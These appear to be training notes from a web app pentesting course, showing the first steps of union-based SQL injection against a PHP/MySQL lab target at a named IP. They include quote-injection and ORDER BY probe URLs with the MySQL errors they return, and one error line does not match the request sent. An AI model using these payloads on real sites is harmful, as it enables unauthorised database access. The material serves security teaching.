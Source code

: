 ###########################################
# Advanced Web App Pentester Night School #
###########################################




#######################
# Attacking PHP/MySQL #
#######################

Go to LAMP Target homepage
http://54.172.112.249/



Clicking on the Acer Link:
http://54.172.112.249/acre2.php?lap=acer

	- Found parameter passing (answer yes to question 1)
	- Insert ' to test for SQLI

http://54.172.112.249/acre2.php?lap=acer'


Page returns the following error:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''acer''' at line 1



In order to perform union-based sql injection - we must first determine the number of columns in this query.
We do this using the ORDER BY
http://54.172.112.249/acre2.php?lap=acer' order by 100-- +

Page returns the following error:
Unknown column '100' in 'order clause'



http://54.172.112.249/acre2.php?lap=acer' order by 50-- +

Page returns the following error:
Unknown column '50' in 'order clause'



http://54.172.112.249/acre2.php?lap=acer' order by 25-- +
Page returns the following error:
Unknown column '25' in 'order clause'



http://54.172.112.249/acre2.php?lap=acer' order by 12-- +

Page returns the following error:
Unknown column '50' in 'order clause'


